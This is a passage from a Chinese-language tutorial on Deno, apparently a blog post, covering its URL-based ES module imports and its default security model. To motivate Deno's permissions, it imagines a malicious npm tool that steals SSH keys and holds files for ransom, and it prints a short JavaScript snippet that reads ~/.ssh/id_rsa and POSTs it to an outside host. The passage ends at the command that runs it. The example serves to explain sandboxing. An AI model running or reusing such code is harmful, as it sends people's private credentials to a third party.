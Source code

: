 deno 完全遵循 es module 浏览器实现

```javascript
// 支持
import * as fs from "https://deno.land/std/fs/mod.ts";
import { deepCopy } from "./deepCopy.js";
import foo from "/foo.ts";

// 不支持
import foo from "foo.ts";
import bar from "./bar"; // 必须指定扩展名
```

我们发现其和我们平常在 webpack 或者 ts 使用 es module 最大的**不同** ：

* 可以通过 import url 直接引用线上资源；
* 资源不可省略扩展名和文件名。

关于第 1 点，争议非常大，有人很看好，觉得极大的扩展了 deno 库的范围；有人则不太看好，觉得国内网速的原因，并不实用。大家的看法如何，欢迎在评论区发表 🤔

### 3.安全

如果模块规范是 node 和 deno 最大的不同，那么对安全的处理，则是另外一个让人摸不着头脑的地方。

#### 模拟盗号

在介绍之前我们先思考一下这个场景会不会出现：

我做了一个基于命令行的一键上网工具 `breakwall`，每月 1 个 G 免费流量，然后将压缩后的 JS 代码发布到 npm 上，然后后在各种渠道宣传一波。

羊毛党兴高彩烈的 `cnpm install -g breakwall`，然后每次使用的时候，我偷偷的将诸位的 ssh 密钥和各种能偷的文档及图片偷偷上传到我的服务器，在设定期限到期后，删除电脑上资料，留下一句拿钱换资料，仅支持比特币。

#### 默认安全的 deno

如果你觉得以上情况有可能出现，则会觉得下面的功能很实用。我们先用 deno 执行以下代码：

```javascript
// index.js
let rsa = Deno.readFileSync(Deno.dir("home") + "/.ssh/id_rsa");

rsa = new TextDecoder().decode(rsa);

fetch("http://jsonplaceholder.typicode.com/posts/1", {
  method: "POST",
  body: JSON.stringify(rsa)
})
  .then((res) => res.json())
  .then((res) => console.log("密钥发送成功，嘿嘿嘿😜"));

console.log("start breakwall...");
```

运行

```javascript
deno run --unstable index.js
```
